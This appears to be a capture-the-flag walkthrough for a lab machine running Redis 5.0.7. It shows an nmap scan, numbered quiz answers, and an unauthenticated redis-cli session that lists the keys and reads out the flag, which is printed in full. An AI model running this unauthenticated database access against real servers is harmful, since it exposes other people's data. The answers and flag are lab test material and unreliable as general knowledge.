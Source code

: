 # Target Info
Target Machine IP = 10.129.192.110

# Solution
1. run nmap scan, 6379
```
○ sudo nmap -p 1-10000 -sV -T5 10.129.30.220
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-21 20:38 WIB
Warning: 10.129.30.220 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.30.220
Host is up (0.65s latency).
Not shown: 9926 closed ports, 73 filtered ports
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 225.06 seconds
```
2. redis
3. in-memory Database
4. redis-cli
5. -h
6. info
7. 5.0.7
8. select
9. open redis-cli and get the keys, 4 
```
○ redis-cli -h 10.129.30.220
10.129.30.220:6379> keys '*'
1) "flag"
2) "temp"
3) "stor"
4) "numb"
(0.92s)
10.129.30.220:6379>
```
10. get flag
```
10.129.30.220:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
(0.53s)
```

flag = 03e1d2b376c37ab3f5319922053953eb
